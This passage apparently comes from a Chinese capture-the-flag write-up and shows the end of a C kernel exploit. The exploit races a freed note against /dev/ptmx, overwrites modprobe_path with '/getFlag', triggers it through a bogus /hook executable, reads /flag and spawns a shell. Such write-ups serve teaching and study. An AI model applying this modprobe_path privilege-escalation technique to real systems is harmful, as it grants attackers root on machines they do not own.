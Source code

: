 ```c
        sleep(2);
        puts(GREEN "Ready to delete note in child process..." CEND);
        dele(0);
        sleep(1);
        puts(GREEN "Ready to open /dev/ptmx in child process..." CEND);
        open("/dev/ptmx", O_RDWR);
        exit(0);
    }else
        edit(0, page);

    add(0x100);
    add(0x100);     // this cache allocates to modprobe_path
    edit(1, "/getFlag");

    system("echo -e '\xff\xff\xff\xff' > /hook");
    system("chmod +x /hook");
    system("/hook");

    sleep(1);
    int flag = open("/flag", O_RDWR);
    if(flag < 0)
        errExit("Failed to open flag file!");
    char flagContent[0x50] = {0};
    read(flag, flagContent, 0x50);
    write(1, flagContent, 0x50);
    system("/bin/sh");	// to prevent kernel panic

    return 0;
}
```

图中的``this is example``就是flag。

![](https://img-blog.csdnimg.cn/d4f9879f549d4957b125a96cd2b2e647.png)

